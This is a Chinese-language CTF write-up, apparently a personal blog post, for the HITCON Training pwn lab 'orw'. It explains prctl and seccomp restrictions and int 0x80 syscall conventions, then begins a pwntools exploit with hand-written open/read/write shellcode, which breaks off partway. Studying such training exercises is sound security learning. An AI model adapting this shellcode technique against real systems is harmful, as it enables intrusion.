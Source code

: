 ```yaml
---
layout:     post
title: “hitcon pwn writeUp（一）”
subtitle:   "新的一轮pwn训练…… "
date: 2019-04-17 14:45:00
author:     "许大仙"
header-img: "img/post-bg-alibaba.jpg"
tags:
    - CTF
---
```


[TOC]

> 来自[HITCON pwn](https://github.com/scwuaptx/HITCON-Training)的练习

### lab2

这一题是直接让你输入shellcode然后程序就去执行你的shellcode，但正如这道题的名字orw，获取flag的方法是用open,read,write三个syscall来完成的。

##### prctl( int **option**,unsigned long arg2,……)

这个系统调用指令是为进程制定而设计的，明确的选择取决于option。通过`man prctl`可以查看该函数说明。

![使用到了option 38和22](C:\Users\asus\spidermana.github.io\assets\img\hitonlab22.png)



option 38/22：

`#define PR_SET_NO_NEW_PRIVS	38`：当一个进程或其子进程设置了PR_SET_NO_NEW_PRIVS 属性,则其不能访问一些无法share的操作,如setuid, 和chroot【总之就是不能让你提高权限】

`#define PR_GET_SECCOMP	21`: set process seccomp【secure computing】 mode ，这个模式限制了你能使用的系统调用。根据参数设置，只能想办法使用open,read,write这三个syscall来cat flag。

![反编译情况](C:\Users\asus\spidermana.github.io\assets\img\hitonlab21.png)



##### system call

- int 0x80的输入输出参数说明：
  - 输入参数：%eax＝功能号
  -  %ebx，%ecx，%edx，%esx，%edi为参数
  - 功能号：exit(1)/fork(2)/read(3)/write(4)/open(5)
  - 其他详见：https://blog.csdn.net/xiaominthere/article/details/17287965

```python
#exp如下
#fp = open("flag",0)
#read(fp,buf,0x30)
#write(1,buf,0x30)
#通过汇编语言完成上述语句
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']
bin = ELF('orw.bin')
cn = process('./orw.bin')

cn.recv()
#注意shellcode asm后不能有0x00，否则会在read()时被截断
shellcode='''
push 1; #push 1，0x00000001位于栈顶，esp处
dec byte ptr [esp]; #BYTE PTR [esp]表示[esp]处一个字节，dec表示减1，
push 0x67616c66;  #此时栈顶为0x00000000，push “flag”，得到flag\0
mov ebx,esp;  #ebx=flag的地址
xor ecx,ecx;  #清空,ecx=0
```